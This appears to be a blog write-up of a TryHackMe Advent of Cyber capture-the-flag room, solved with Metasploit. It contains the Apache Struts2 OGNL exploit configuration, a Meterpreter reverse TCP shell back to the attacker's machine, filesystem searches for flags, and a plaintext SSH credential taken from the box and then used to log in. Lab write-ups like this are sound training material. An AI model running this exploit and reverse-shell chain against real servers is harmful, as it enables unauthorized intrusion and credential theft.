 ```yaml
---
title: "Advent of Cyber Day 10 Metasploit-a-ho-ho-ho"
author: Ludovic COULON
date: 2020-05-08
hero: ./images/hero.png
excerpt: "Advent of Cyber Day 10 Metasploit-a-ho-ho-ho"
secret: true
---
```


[TryHackMe | Advent of Cyber](https://tryhackme.com/room/25daysofchristmas)

Hi Lindsey here. I've been a great Elf all year, but there was one incident and now I think I'm on Santa's naughty list.

What? You didn't think us elves got presents too? Well we do and we get first pick of the pressies!

Can you help me hack into Santa's system that keeps track of the naughty and nice people to see if I am on it?

<div className="Image__Medium">
  <img src="https://i.imgur.com/ODZrb5R.png" alt="blog_image" />
</div>

Check out the [blog post](https://blog.tryhackme.com/metasploit/) shown above to help you on this task.

## Setup

On the title of this box it says "Struts", so I search if there is some exploits in the metasploit framework and spoiler alert there is one.

<div className="Image__Medium">
  <img src="https://i.imgur.com/6PI0zyZ.png" alt="blog_image" />
</div>

Now that we have the exploit let's use it !

```bash
use exploit/multi/http/struts2_content_type_ognl
```

Now put the correct HOST and port for the exploit

```bash
set RHOSTS 10.10.21.228 # Host of the target box
set RPORT 80 # There is no SSL (https)
set TARGETURI /showcase.action # The path to a struts application action (default path)
```

Now the fun stuff, the reverse tcp meterpreter :)

```bash
use linux/x86/meterpreter/reverse_tcp
set LHOST IP # Ip of your kali machine (openvpn ip)
set LPORT 4444 # You can put anything there.
```

After all the configuration you need to go back to the previous exploit (struts2)

```bash
use multi/http/struts2_content_type_ognl
set PAYLOAD linux/x86/meterpreter/reverse_tcp # Link the reverse TCP to the struts exploit)
exploit
```

## 1 Compromise the web server using Metasploit. What is flag1?

On the question we have the name of the flag so let's find it !

```bash
meterpreter > shell
Process 63 created.
Channel 6 created.
find / | grep -i "flag1"
/usr/local/tomcat/webapps/ROOT/ThisIsFlag1.txt
^C
Terminate channel 6? [y/N]  y
meterpreter > cat /usr/local/tomcat/webapps/ROOT/ThisIsFlag1.txt
THM{3ad96bb13ec963a5ca4cb99302b37e12}
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/CC7mRJq.png" alt="blog_image" />
</div>

```bash
THM{3ad96bb13ec963a5ca4cb99302b37e12} # flag
```

## 2 Now you've compromised the web server, get onto the main system. What is Santa's SSH password?

On the question we have the name 'santa' let's see if there is some users on the /home directory

```bash
meterpreter > "cd /home"
meterpreter > "ls"
Listing: /home
==============

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2019-12-08 16:12:45 -0500  santa

meterpreter > "cd santa"
meterpreter > ls
Listing: /home/santa
====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  30    fil   2019-12-08 16:12:44 -0500  "ssh-creds.txt"

meterpreter > "cat ssh-creds.txt"
santa:rudolphrednosedreindeer
```

```bash
rudolphrednosedreindeer # flag
```

## 3 Who is on line 148 of the naughty list?

Now that we have the ssh creds on the santa's accont let's use it !

```bash
ssh santa@10.10.21.228
password: rudolphrednosedreindeer
```

[How to "grep" out specific line ranges of a file](https://stackoverflow.com/a/2914269)

```bash
[santa@ip-10-10-21-228 ~]$ sed '148!d' naughty_list.txt
Melisa Vanhoose
```

## 4 Who is on line 52 of the nice list?

```bash
[santa@ip-10-10-21-228 ~]$ sed '52!d' nice_list.txt
Lindsey Gaffney
```
